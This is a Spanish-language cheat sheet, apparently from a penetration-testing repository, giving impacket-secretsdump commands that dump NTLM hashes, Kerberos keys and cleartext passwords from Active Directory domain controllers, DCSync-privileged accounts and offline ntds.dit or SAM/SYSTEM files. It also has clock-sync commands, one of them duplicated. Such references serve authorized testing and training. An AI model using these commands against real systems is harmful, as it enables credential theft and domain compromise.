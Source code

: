 # SecretsDump Cheat Sheet

#### Dump Hashes - cuando tienes un usuario que pertenece al grupo Administrador
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET>
```

#### Extrar Hashes NTLM y kerberos keys  - cuando se tiene un usuario que pertenece al grupo DCSync (el parametro -just-dc creará 3 archivos: una que contiene los hashs NTLM, una que contiene las teclas Kerberos, y otra que contendría contraseñas de texto claros de la NTDS)
```
impacket-secretsdump -outputfile hashes -just-dc <DOMAIN>/<USER>@<IP>
```

#### Dump Hashes - cuando tienes una cuenta kerberos
```
impacket-secretsdump 'CIFS/<DOMAIN-DC>' -k -no-pass <DOMAIN-CHILD>/<USER> -debug 
```

#### Extrar Hashes NTLM y kerberos keys de un usuario en especifico - cuando se tiene un usuario que pertenece al grupo DCSync
```
impacket-secretsdump -outputfile hashes -just-dc-user <USERNAME-TO-EXTRACT> <DOMAIN>/<USER>@<IP>
```

#### Extraer Hashes de archivos ntds.dit
```
impacket-secretsdump.py -ntds <FILE.dit> -system <FILE-SYSTEM> LOCAL
```

#### Extraer Hashes de SAM & SYSTEM
```
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> LOCAL
ó
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> -system <FILE-SYSTEM> LOCAL
```

##### Sincronizar la hora con el DC:
```
timedatectl set-ntp off
ó 
timedatectl set-ntp off

ntpdate -s <IP>
ó
rdate -n <IP>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)